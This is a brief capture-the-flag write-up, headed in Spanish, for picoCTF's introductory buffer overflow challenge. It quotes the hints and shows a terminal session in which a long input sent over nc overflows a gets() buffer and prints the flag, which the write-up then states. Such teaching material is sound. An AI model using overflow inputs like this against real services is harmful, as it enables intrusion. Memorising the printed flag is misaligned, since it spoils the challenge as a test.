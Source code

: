 ## Descripcipción

Smash the stackLet's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/172/vuln). You can view source [here](https://artifacts.picoctf.net/c/172/vuln.c). And connect with it using:`nc saturn.picoctf.net 63397`

## Pistas

How can you trigger the flag to print
If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.
Run `man gets` and read the BUGS section. How many characters can the program really read?

## Solucion

```
apaleliz-picoctf@webshell:~$ wget https://artifacts.picoctf.net/c/172/vuln.c
--2023-05-16 18:22:54--  https://artifacts.picoctf.net/c/172/vuln.c
Resolving artifacts.picoctf.net (artifacts.picoctf.net)... 108.156.172.120, 108.156.172.74, 108.156.172.6, ...
Connecting to artifacts.picoctf.net (artifacts.picoctf.net)|108.156.172.120|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 808 [application/octet-stream]
Saving to: 'vuln.c.1'

vuln.c.1            100%[==================>]     808  --.-KB/s    in 0s      

2023-05-16 18:22:55 (470 MB/s) - 'vuln.c.1' saved [808/808]

apaleliz-picoctf@webshell:~$ nc saturn.picoctf.net 63397
Input: 111111111111111111111
picoCTF{ov3rfl0ws_ar3nt_that_bad_8446a0c3}
```

## Bandera
picoCTF{ov3rfl0ws_ar3nt_that_bad_8446a0c3}

